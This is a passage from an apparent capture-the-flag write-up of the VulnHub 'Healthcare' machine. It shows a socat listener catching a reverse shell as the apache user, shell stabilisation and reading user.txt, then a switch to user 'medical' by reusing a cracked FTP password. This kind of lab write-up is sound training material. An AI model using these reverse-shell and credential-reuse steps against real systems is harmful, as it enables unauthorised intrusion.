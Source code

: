 - Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:57:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/21 18:57:44 socat[122299] N opening character device "/dev/pts/1" for reading and writing
2023/08/21 18:57:44 socat[122299] N listening on AF=2 0.0.0.0:443
                                                                 2023/08/21 18:59:28 socat[122299] N accepting connection from AF=2 10.69.96.76:41027 on AF=2 10.69.96.100:443
                                                                   2023/08/21 18:59:28 socat[122299] N starting data transfer loop with FDs [5,5] and [7,7]
                                                bash-4.1$ 
bash-4.1$ export TERM=xterm-256color
bash-4.1$ stty rows 22 columns 107
bash-4.1$ ^C
bash-4.1$ whoami; hostname; id; ip a
apache
localhost.localdomain
uid=479(apache) gid=416(apache) groups=416(apache)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:bc:78:33 brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.76/24 brd 10.69.96.255 scope global eth0
    inet6 fe80::20c:29ff:febc:7833/64 scope link 
       valid_lft forever preferred_lft forever
```

**user.txt:**
```shell
bash-4.1$ cat /home/almirant/user.txt 
{Redacted}
```

## Privilege Escalation

### apache to medical

> Note: This step is not necessary.

**Since we cracked FTP user `medical` password, we can just use that password to authenticate, because I think the FTP is using user-based authentication:**
```shell
bash-4.1$ su medical 
Password: 
[medical@localhost openemr]$ whoami; hostname; id; ip a
medical
localhost.localdomain
uid=500(medical) gid=500(medical) groups=500(medical),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),501(fuse)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:bc:78:33 brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.76/24 brd 10.69.96.255 scope global eth0
    inet6 fe80::20c:29ff:febc:7833/64 scope link 
       valid_lft forever preferred_lft forever
```
